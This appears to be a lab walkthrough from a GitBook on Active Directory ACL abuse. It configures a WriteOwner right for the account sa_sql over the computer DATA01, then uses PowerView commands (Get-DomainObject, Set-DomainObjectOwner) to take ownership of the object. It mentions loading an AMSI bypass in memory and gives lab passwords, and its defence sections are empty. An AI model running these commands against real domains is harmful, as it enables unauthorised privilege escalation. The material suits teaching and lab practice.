 # Write Owner

## Configuring

1. Login to `DC03` with the Administrator user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../../.gitbook/assets/image (67) (1) (1) (1) (1) (1) (1) (1).png>)

3\. Click on "View" and enable "Advanced Features

![](<../../../.gitbook/assets/image (48) (1) (1) (1) (1).png>)

4\. Click on the "Computers" directory and right click on the "DATA01" computer and select "Properties". Then select "Security" to see the ACL's.

5\. Click on "Add" and type `sa_sql`.

![](<../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png>)

6\. Select the "sa\_sql" user and click "Advanced". Then select the "sa\_sql" once again and click on "Edit". Then select "Modify Owner".

![](<../../../.gitbook/assets/image (15) (1) (1) (1) (1).png>)

7\. We can quickly run BloodHound to check if the correct permissions are applied to the `sa_sql` user:

![](<../../../.gitbook/assets/image (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (61) (1) (1) (1) (1).png>)

It is configured correctly!

## Attacking

### How it works

If a domain object has the WriteOwner ACL, the object can change the owner of the object. In this case the user `SA_SQL` can change the owner of the computerobject `DATA01`. Once you are "Owner" of a object, you can change the DACL of the object.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

1. Download PowerView on the kali machine and host it on a webserver:

```
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

2\. Login to `WS01` as Richard with the password `Sample123`.

3\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../.gitbook/assets/image (70) (1) (1) (1) (1).png>)

4\. In the page DACL-Abuses I showed you how to check for ACL's using BloodHound. We will abuse the "Write Owner" ACL `sa_sql` has on `DATA01`.

![](<../../../.gitbook/assets/image (53) (1) (1).png>)

5\. With PowerView we can query the current owner of the computerobject `DATA01`. Since we are queering data from another domain, we will have to provide a username and password for that domain. Create a credential object using the `get-credential` cmdlet:

```
$creds = Get-Credential
```

Then we can use PowerView to query the domain controller from `secure.local` for the domain-object `DATA01` and retrieve the samaccountname and Owner attribute. We will receive a SID which we need to resolve aswell;

```
Get-DomainObject -Identity data01 -SecurityMasks Owner -Domain secure.local -Credential $creds -Server 10.0.0.100 | select samaccountname, Owner
Get-DomainObject -Identity S-1-5-21-1498997062-1091976085-892328878-512 -Domain secure.local -Credential $creds -Server 10.0.0.100
```

![](<../../../.gitbook/assets/image (32) (1) (1).png>)

The current owner of the computerobject `DATA01` is the group `Domain Admins`.

6\. With PowerView we can change the owner of the object using the `Set-DomainObjectOwner` cmdlet.

```
Set-DomainObjectOwner -Domain secure.local -Credential $creds -Server 10.0.0.100 -Identity DATA01 -OwnerIdentity sa_sql -Verbose
```

![](<../../../.gitbook/assets/image (69) (1) (1) (1) (1) (1).png>)

7\. We didn't receive any errors, to lets use the same queries again to query the owner of the computerobject DATA01;

![](<../../../.gitbook/assets/image (21) (1) (1) (1).png>)

8\. We successfully changed the owner of the computerobject from `Domain Admins` to `sa_ql`.

## Defending

### Recommendations



### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writeowner" %}
